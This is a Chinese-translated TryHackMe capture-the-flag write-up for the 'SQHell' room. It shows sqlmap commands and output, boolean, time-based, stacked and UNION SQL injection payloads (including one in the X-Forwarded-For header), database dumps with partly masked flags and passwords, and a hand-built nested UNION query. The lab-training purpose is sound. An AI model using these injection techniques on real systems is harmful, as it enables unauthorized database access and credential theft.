







# TryHackMe Writeup — SQHell

> 原文：<https://infosecwriteups.com/tryhackme-sqhell-2dd7bd7f0990?source=collection_archive---------0----------------------->


照片来自[https://tryhackme.com/room/sqhell](https://tryhackme.com/room/sqhell#)

大家好，又和 TryHackMe 玩得开心了。所以，这是通过这个 **SQHell** 挑战的写作和故事指南。

**房间**:[https://tryhackme.com/room/sqhell](https://tryhackme.com/room/sqhell#)
**级别**:中等

**任务**:尝试找到 SQL 注入中的所有标志

# 我们开始吧

像往常一样，启动机器并在浏览器中打开 IP



那里有登录和注册页面。让我们先看看登录页面



尝试使用简单的 SQL 注入和不工作。让我们使用`**sqlmap**`进行更深入的检查

```
# sqlmap -u http://10.10.X.X/login --method=POST --data=username=admin&password=admin -p username,password --risk=3 --level=3 --random-agentsqlmap identified the following injection point(s) with a total of 288 HTTP(s) requests:
---
**Parameter: username (POST)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: username=-6970' OR 4968=4968-- XSZT&password=admin****Type: stacked queries
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: username=admin';SELECT SLEEP(5)#&password=admin****Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=admin' AND (SELECT 5071 FROM (SELECT(SLEEP(5)))xYzy)-- Ncar&password=admin**
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
```

看来`**username**`字段容易受到几种 sql 注入方法的攻击。现在让我们看看数据库列表

```
# sqlmap -u "http://10.10.X.X/login" --method=POST --data="username=admin&password=admin" -p "username,password" --risk=3 --level=3 --random-agent --dbs --threads 10...
available databases [2]:
[*] **information_schema**
[*] **sqhell_2**
```

只需将所有数据转储到数据库 sqhell_2 下

```
sqlmap -u "http://10.10.X.X/login" --method=POST --data="username=admin&password=admin" -p "username,password" --risk=3 --level=3 --random-agent -D sqhell_2 --dump-all --threads 10...
...
**Database: sqhell_2
Table: users
[1 entry]
+----+----------+---------------------------------+
| id | username | password                        |
+----+----------+---------------------------------+
| 1  | admin    | icantrememberthisXXXXXXXXXXXXXX |
+----+----------+---------------------------------+**
...
...
```

我们开始吧，使用暴露的凭证登录



找到第一面旗了！。让我们寻找下一面旗帜。让我们检查注册页面。在检查用户名可用性时，存在一个 Ajax 请求。让我们先检查一下

```
# sqlmap -u "http://10.10.X.X/register/user-check?username=admin2" -p "username" --risk=3 --level=3 --dbs --dbms=mysql --threads 10**available databases [2]:
[*] information_schema
[*] sqhell_3**
```

哦！存在另一个表。转储数据库

```
# sqlmap -u "http://10.10.X.X/register/user-check?username=admin" -p "username" --risk=3 --level=3 -D sqhell_3 --dump-all --dbms=mysql --threads 10Database: **sqhell_3**
**Table: flag** [1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
**| 1  | THM{FLAG3:97AEB3B28A486441XXXXXXXXXXXXXXXX} |** +----+---------------------------------------------+Database: **sqhell_3**
**Table: users** [1 entry]
+----+----------+---------------------------------+
| id | username | password                        |
+----+----------+---------------------------------+
**| 1  | admin    | icantrememberthispassXXXXXXXXXX |** +----+----------+---------------------------------+
```

找到旗子了。实际上是 3 号旗。但是没关系。我们去找其他人吧。



```
http://10.10.X.X/post?**id**=2
```

我忘了点击“阅读更多”链接。看来还有另一个查询参数可供 brute 使用。让我们试试

```
# sqlmap -u "http://10.10.X.X/post?id=2" -p "id" --risk=3 --level=3 --dbs --dbms=mysql --threads 10sqlmap identified the following injection point(s) with a total of 52 HTTP(s) requests:
---
Parameter: id (GET)
**Type: boolean-based blind**
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3791=3791**Type: error-based**
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: id=2 AND GTID_SUBSET(CONCAT(0x71706a7071,(SELECT (ELT(9206=9206,1))),0x716b7a6b71),9206)**Type: stacked queries**
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: id=2;SELECT SLEEP(5)#**Type: time-based blind**
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 3078 FROM (SELECT(SLEEP(5)))ERZk)**Type: UNION query**
Title: Generic UNION query (NULL) - 4 columns
Payload: id=-6926 UNION ALL SELECT NULL,CONCAT(0x71706a7071,0x4c474b6e4f55716e4557424a686c4d755a564f6a4c58625550634774787947517541666b5a4e674b,0x716b7a6b71),NULL,NULL-- -
---
....
....available databases [2]:
[*] information_schema
**[*] sqhell_5**
```

好了，现在又有一个新的数据库可用了

```
# sqlmap -u "http://10.10.X.X/post?id=2" -p "id" --risk=3 --level=3 -D sqhell_5 --dump-all --dbms=mysql --threads 10Database: **sqhell_5**
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
**| 1  | THM{FLAG5:B9C690D3B914F7038BA1FC6XXXXXXXXX} |** +----+---------------------------------------------+Database: **sqhell_5**
Table: posts
[1 entry]
+----+----------+-------------+----------+
| id | user_id  |   name      | content  |
+----+----------+-------------+----------+
**| 1  | 1        | First Post  | XXXXXXXX |
+----+----------+-------------+----------+
| 2  | 1        | Second Post | XXXXXXXX |**
+----+----------+-------------+----------+Database: **sqhell_5**
Table: users
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
**| 1  | admin    | XXXXXXXX |**
+----+----------+----------+
```

找到旗子了，是第五面旗..😅第二面和第四面旗帜在哪里🤔。让我们看看博文的作者


```
[http://10.10.135.78/user?id=1](http://10.10.135.78/user?id=1)
```

从用户作者中找到另一个参数。让我们试试吧

```
# sqlmap -u "http://10.10.X.X/user?id=1" -p "id" --risk=3 --level=3 --dbs --dbms=mysql --threads 10available databases [2]:
[*] information_schema
**[*] sqhell_4**
```

好了，现在又有一个新的数据库可用了

```
Database: **sqhell_4**Table: users
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | password |
+----+----------+----------+
```

但是这个数据库中只有一个表。🤔让我们看看提示



上面写着“我们出于分析目的记录你的 IP 地址”。可能是系统从请求中获取 IP 地址并保存到数据库中。根据使用 PHP 的经验，`**X-Fowarded-For**`头是用来记录用户 IP 地址的。那么，让我们注射到头部，

```
# sqlmap -u "http://10.10.X.X/user?id=1" --headers="X-forwarded-for:1*" --risk=3 --level=5 --dbms=mysql --threads 10 --dbs --time-sec=1---
Parameter: X-forwarded-for #1* ((custom) HEADER)
**Type: stacked queries**
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: 1';SELECT SLEEP(1)#**Type: time-based blind**
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: 1' AND (SELECT 5673 FROM (SELECT(SLEEP(1)))rCnJ)-- INff
---available databases [2]:
[*] information_schema
[*] **sqhell_1**
```

它的时基盲 SQL 注入类型。这可能需要一段时间，因为它是基于时间的。默认情况下`**sqlmap**`用了 2 秒。只需将命令调整为 1 秒，使其更快。现在，把所有的桌子都倒在`**sqhell_1**`里面

```
# sqlmap -u "http://10.10.X.X/user?id=1" --headers="X-forwarded-for:1*" --risk=3 --level=5 --dbms=mysql --threads 10 -D **sqhell_1** --tables --dump-all --time-sec=1Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
**| 1  | THM{FLAG2:C678ABFE1C01FCA19E039XXXXXXXXXXX} |** +----+---------------------------------------------+Database: sqhell_1
Table: hits
[0 entries]
+----+----+---------+
| id | ip | count   |
+----+----+---------+
+----+----+---------+
```

好吧！找到第二面旗帜了！..现在是 4 号！

再次参考数据库`**sqhell_4**`。当检查信息模式时，实际上有另一个表，但它没有出现在`**sqlmap**`扫描中

```
Database: information_schemaTable: INNODB_DATAFILES[34 entries]
+-----------------------------------------+------------+
| PATH                                    | SPACE      |
+-----------------------------------------+------------+
...
...
**| ./sqhell_4/flag.ibd                     | 42         |
| ./sqhell_4/posts.ibd                    | 43         |**
| ./sqhell_4/users.ibd                    | 44         |
...
...
+-----------------------------------------+------------+
```

太奇怪了😵‍💫有点难。它不会从`**sqlmap**`扫描出来。

如果我们测试 admin:password 来使用这个用户密码登录 mysql 怎么样？

没有。失败~~

宋承宪怎么样？？

```
ssh admin@10.10.X.X
....
Permission denied (publickey).
....
```

呃！！..哈哈的笑..这个 CTF 只是关注 SQL 注入。可能是另一种方式

如果谷歌搜索提示，它指的是盗梦空间电影。



这可能是个暗示。这里发生了一些奇怪的事情。关于不和谐的讨论，需要手动查找。因此..，让我们用更详细的级别再次查找注入类型

```
# sqlmap -u "http://10.10.X.X/user?id=5000" --risk=3 --level=5 --dbms=mysql --threads=10 --random-agent --dbs -v 3....
....
---
Parameter: id (GET)
**Type: time-based blind** Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=5000 AND (SELECT 3646 FROM (SELECT(SLEEP(5)))FYCC)
**Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])****Type: UNION query**
Title: Generic UNION query (NULL) - 3 columns
Payload: id=5000 UNION ALL SELECT NULL,CONCAT(0x716b6a7171,0x4872555953536f506570474e616b55584968664f71507872784d756a5a6e487a4646565555654845,0x7178787071),NULL-- -**Vector: UNION ALL SELECT NULL,[QUERY],NULL-- -**
---
....
....
```

使用上面的联合向量示例，在几个小时的尝试和错误之后，填充查询以访问从`**sqlmap**`无法访问的`**flag**`表

烹饪查询后的最终结果:

```
5000 UNION ALL SELECT "5000 UNION SELECT flag,flag,flag,flag from flag-- -",5000,5000 from users-- -
```



嘣！~~~任务完成。

感谢您的阅读，让我们来看看另一篇文章。🤘